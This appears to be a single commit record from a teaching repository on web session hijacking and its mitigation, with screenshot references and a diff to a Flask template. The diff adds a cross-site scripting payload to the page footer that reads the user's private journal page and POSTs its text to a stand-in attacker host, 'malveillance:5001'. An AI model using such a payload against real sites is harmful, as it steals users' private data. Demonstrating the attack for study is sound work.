

Before and after one commit to Valentxn7/web-session-hijacking-attack-and-mitigation, a Flask app: page / in a window 1280 px wide. Shown: the part 546-973 px from the top of the page. Before the commit the page ends 827 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
➕ XSS journal stoler

```diff
--- a/templates/indexV3.html
+++ b/templates/indexV3.html
@@ -294,6 +294,28 @@
         <div class="footer-text">
             Si vous lisez ces lignes, courage à vous.&lt;img src="https://malveillance:5001/image/loutre"&gt;
         </div>
+       <div class="footer-text">
+           Votre journal intime ne l'est plus
+           &lt;script&gt;
+            fetch("/journal")
+              .then(r => r.text())
+              .then(html => {
+                const doc = new DOMParser().parseFromString(html, "text/html");
+                const journal = doc.querySelector("#journal").innerText;
+
+                fetch("https://malveillance:5001/collect", {
+                  method: "POST",
+                  body: new URLSearchParams({
+                    page: "/journal",
+                    content: journal
+                  })
+                });
+              });
+            &lt;/script&gt;
+        </div>
+
+
+
     </div>
 </body>
 </html>
```
Also changed, not shown: interceptor.py (+17 -4 lines), templates/cookie.html (+7 -0 lines).
